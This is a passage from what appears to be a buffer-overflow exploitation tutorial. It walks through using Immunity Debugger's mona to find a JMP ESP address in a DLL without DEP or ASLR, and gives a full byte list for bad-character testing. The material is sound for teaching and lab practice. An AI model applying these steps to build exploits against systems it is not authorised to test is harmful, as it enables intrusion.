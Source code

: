 6) Once you've verified that the offset is correct, you have to find a way to get an instruction into the program counter that will jump to the top of the stack and begin executing your arbitrary shell code.

   Inside immunity debugger, click on the command box at the bottom of the page and write the following command:

   ```bash
   !mona modules
   ```

   This will bring up a list of modules / libraries that are dynamically linked to the executable. Inside one of these modules is probably the assembly command `JMP ESP`, which will jump to the top of the stack.

   When deciding on a DLL to use, it's important that you choose one that was compiled with DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization) disabled.

7) Once you've found a module with the previous security features turned off, you must search for the command `JMP ESP` inside it. The shellcode for this command is `FFE4` which can be found using the `nasm-shell.rb` utility in metasploit. Return to the command box and issue:

   ```bash
   !mona find -s "\xff\xe4" -m <target-dll>
   ```

   Note down the address of the memory that contains the command. As Windows is little endian, the bytes of the address should be reversed.

8) There's one final thing to do before starting the attack - find "bad characters" that will cause your program to stop.

   To find out what characters are bad, send a list of all ascii characters and note where it stops. Remove the troublesome characters and try again until all of them make it through. Make note of the "bad characters".

   Here's a list of all ascii characters:

   ```python
   chars =
     ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
     "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
     "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
     "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
     "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
     "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
     "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
     "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
     "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
     "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
     "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
     "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
     "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
     "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
     "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
     "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
   ```
